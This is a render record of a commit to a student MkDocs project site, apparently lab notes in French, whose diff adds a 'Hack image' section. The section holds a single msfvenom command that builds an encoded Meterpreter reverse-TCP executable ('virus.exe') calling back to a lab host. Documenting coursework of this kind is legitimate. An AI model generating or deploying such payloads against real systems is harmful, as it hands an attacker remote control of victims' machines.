

Before and after one commit to FlagHunter01/school, an MkDocs documentation site: the page built from docs/cfa/projet/index.md, in a window 1280 px wide and 900 px high, scrolled down 19131 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 19872 px from its top, so only the background shows below that.

Commit message:
Suite rédac hack image

````diff
--- a/docs/cfa/projet/index.md
+++ b/docs/cfa/projet/index.md
@@ -922,3 +922,11 @@
 ```
 
 Malhersuement, le mot de passe reste introuvable, même après avoir lancé une recherche dans le fichier XML exporté.
+
+### Hack image
+
+Création d'un shellcode:
+
+```
+msfvenom –p windows/Meterpreter/reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 LHOST=192.168.10.30 LPORT=4444 -f exe > virus.exe
+```
````
